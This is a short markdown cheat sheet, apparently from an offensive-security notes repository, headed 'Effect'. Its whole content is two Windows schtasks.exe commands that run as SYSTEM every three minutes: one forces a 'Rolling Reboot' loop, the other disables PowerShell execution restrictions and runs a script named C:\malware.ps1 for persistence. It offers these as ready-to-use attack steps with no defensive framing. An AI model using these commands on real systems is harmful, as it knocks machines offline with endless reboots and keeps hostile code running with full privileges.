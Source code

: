 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#run-a-script">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 
  * [Run a Script](#run-a-script)

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "Rolling Reboot" /tr "shutdown /r /t 000" 
```

### Run a Script
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "Run a Script" /tr "Set-ExecutionPolicy unrestricted; C:\malware.ps1" 
```
